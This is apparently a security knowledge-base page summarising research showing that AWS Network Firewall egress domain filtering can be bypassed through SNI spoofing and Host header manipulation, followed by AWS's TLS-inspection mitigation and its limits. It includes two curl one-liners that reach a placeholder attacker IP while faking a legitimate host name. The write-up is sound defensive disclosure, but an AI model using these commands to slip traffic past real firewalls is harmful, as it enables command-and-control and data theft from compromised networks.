

<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    [AWS Network Firewall egress filtering can be easily bypassed](https://canglad.com/blog/2023/aws-network-firewall-egress-filtering-can-be-easily-bypassed/) by [Jianjun Huo](https://www.linkedin.com/in/jianjun-h-4a0440)
</div>

AWS Network Firewall implements [egress filtering](https://en.wikipedia.org/wiki/Egress_filtering) with stateful domain list rule groups, enabling organizations to configure allow (or deny) lists of known domains and protect outbound internet traffic from reaching unauthorized destinations, blocking common threats such as data exfiltration and malware command-and-control (C2) communications.

According to [AWS documentation](https://docs.aws.amazon.com/network-firewall/latest/developerguide/stateful-rule-groups-domain-names.html#stateful-rule-groups-domain-names-match-settings), the service uses the **Server Name Indication (SNI)** extension in the TLS handshake to determine the domain name for HTTPS traffic and the **Host Header** for HTTP traffic. However, it does not perform DNS lookups to verify the destination IP address, allowing attackers to reach malicious destinations via *SNI spoofing* or *Host Header manipulation*.

An adversary who has successfully compromised a host can guess legitimate domain names, choosing commonly used API endpoints or specific organization URLs to contact controlled web servers in the following manner:

```bash
curl -H "Host: <legitimate_host>" http://<attacker_ip>

curl -ik https://<legitimate_host> --resolve '<legitimate_host>:<attacker_ip>'
```

In the following examples, the attacker’s public IP is reached using the Windows Update Host Header for HTTP communication and the AWS SSM service SNI for TLS traffic.




To address this issue for HTTPS traffic, AWS recommends implementing **TLS inspection** on Network Firewall. In this case, spoofed traffic will be dropped since the TLS server certificate domain is validated against the SNI. However, this solution requires installing a custom *Certificate Authority (CA)* on each host and **does not protect HTTP traffic**, which is often allowed, for example, for Windows system updates.